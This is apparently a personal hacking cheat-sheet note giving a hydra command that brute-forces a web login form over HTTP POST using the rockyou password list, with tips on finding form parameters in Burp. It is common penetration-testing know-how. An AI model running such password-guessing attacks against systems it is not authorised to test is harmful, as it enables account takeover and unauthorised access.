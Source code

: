 # hydra brute force HTTP Post Request
Check request in BURP to see Post parameters. -l or -L has to be set, even if there is no user to login with!. Use https-post-form instead of http-post-form for HTTPS sites.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.1 http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t 15
```

# Related

- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- ~/kb/hacking/commands/hydra.md

Tags:

    #command #hacking #hydra 

